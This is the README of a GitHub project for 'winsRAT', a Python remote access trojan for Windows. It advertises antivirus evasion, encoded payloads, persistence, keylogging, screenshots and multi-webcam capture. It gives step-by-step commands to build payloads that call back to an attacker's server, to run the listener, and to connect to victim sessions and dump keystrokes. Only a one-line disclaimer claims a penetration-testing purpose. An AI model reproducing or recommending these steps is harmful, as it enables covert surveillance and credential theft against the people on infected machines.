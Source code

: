 <h1 align="center"> 
    <img src="https://user-images.githubusercontent.com/29171692/89164677-00e3e480-d595-11ea-9cf1-f27ab1faf432.png" alt="winsRAT" /> <br>    
    winsRAT Under continuous development (Beta winsRAT)
</h1>
<p align="center">
    <a href="https://www.python.org/" target="_blank"><img src="https://img.shields.io/badge/Python-3-yellow.svg?logo=python" alt="Python: 3" /></a>
    <a href="https://github.com/ThemeHackers/winsRAT/releases" target="_blank"><img src="https://img.shields.io/badge/version-v2.1-blue.svg?logo=moo" alt="Release: v3.1" /></a>
    <a href="https://opensource.org/license/gpl-3-0" target="_blank"><img src="https://img.shields.io/badge/license-GPL-green.svg" alt="lisence" /></a>
</p>
<h4 align="center">Windows RAT</h4>

## Getting Started
### Description
winsRAT is written entirely in Python, developed from SillyRAT. winsRAT is a RAT specifically for Windows operating systems and has additional features. Server.py can generate two types of files: .exe files and source files.

### Features
This image shows the features of the tool.
<h6 align="center"><img src="/img/features.png"></h6>
And others, stay tuned.

### High-level features

- Avoid AV
- The payload is base64 encoded.
- The webcam module is developed to capture images of multiple devices on the connected target machine. For example, if the target machine has 5 webcams, this module will capture images of all 5 devices immediately when using the webcam command on the server.
- Reconnecting to increase retention
- And others, stay tuned.

### Installation
The tool is tested on **Windows** with **Python 3.13.4**. 
Follow the steps for installation:
```
$ git clone https://github.com/ThemeHackers/winsRAT
$ cd winsRAT/
$ pip3 install -r requirements.txt
```

## Documentation
### Generating Payload
You can get the payload file in two ways: 
<ul>
    <li>Source File</li>
    <li>Compiled File</li>
</ul>

Source file

```
$ python3 server.py generate -a server_ip -p server_port -o "C:\Users\{...}\Downloads\{name_output}" -s -per
$ python3 server.py generate -a 192.168.1.100 -p 9001 -o "C:\Users\1com3456\Downloads\winsrat" -s -per
```
Compiled file

```
$ python3 server.py generate -a server_ip -p server_port -o "C:\Users\{...}\Downloads\{name_output}"
$ python3 server.py generate -a 192.168.1.100 -p 9001 -o  "C:\Users\1com3456\Downloads\winsrat"
```

<h6 align="center"><img src="/img/generate.png"></h6>

Replace your IP Address and Port on above commands. 

### Running Server
The server must be executed on Windows. You can buy a VPS or Cloud Server for connections. For the record, the server doesn't store any session from last run. So, all the progress will lost once the server application gets terminated. Running your server:
```
$ python3 server.py bind -a 0.0.0.0 -p 9001
```

### Connections
All the connections will be listed under **sessions** command:
```
$ sessions
```

<h6 align="center"><img src="/img/sessions.png"></h6>

You can connect to you target session with **connect** command and launch one of available commands: 
```
$ connect ID
$ keylogger on
$ keylogger dump
$ screenshot
```

<h6 align="center"><img src="/img/kl_scr.png"></h6>

### Help
Get a list of available commands: 
```
$ help
```

Help on a Specific Command:
```
$ help COMMAND
```

### Credit
Twitter: <a href="//twitter.com/hash3liZer">@hash3liZer</a><br>
Discord: TheFlash2k#0407

### Support the improvement 
Instagram: <a href="https://www.instagram.com/_tthemzdl5678/">_tthemzdl5678</a><br>
Github: <a href="https://github.com/ThemeHackers/">ThemeHackers</a><br>
### Disclaimer
This tool is only for use by penetration testers or security testers. The author is not responsible for any illegal actions in your country.
